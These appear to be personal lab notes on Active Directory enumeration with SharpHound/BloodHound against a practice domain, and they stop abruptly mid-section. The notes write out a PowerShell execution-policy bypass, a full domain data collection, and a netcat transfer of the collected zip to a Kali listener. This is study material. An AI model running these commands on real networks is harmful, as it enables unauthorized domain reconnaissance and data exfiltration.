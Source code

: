 - invoke bloodhound - powershell 

Link: [https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)


- Place onto windows 10 machine

Within command prompt setup ep bypass

    powershell -ep bypass

Call Sharphound.ps1

    . .\Sharphound.ps1

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577783538070_image.png)


Invoke Sharphound

    Invoke-Bloodhound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577784418100_image.png)


Move file to kali - Used `nc` file transfer method - downloaded `nc.exe` via SimpleHTTPServer on kali.

nc File Transfer Method:

- Kali setup listener:
    ncat -lvp 80 > file.zip

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786052957_image.png)

- Windows 10 machine
    nc -nv 192.168.175.129 80 < file.zip -w15

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786102033_image.png)


file received:

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786188527_image.png)


 **Import file.zip into Bloodhound**
Upload file.zip via upload button within bloodhound:

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786521879_image.png)


*at this point my Bloodhound crashed when loading file.zip to which I attempted to reinstall… and failed. Moved to create for source… failed. All mainly due to the fact that i was on x86 version of Kali. Moved to Install Bloodhound on a Windows 10 machine following these directions:*

[https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/)

Neoj4 BloodHound issues:
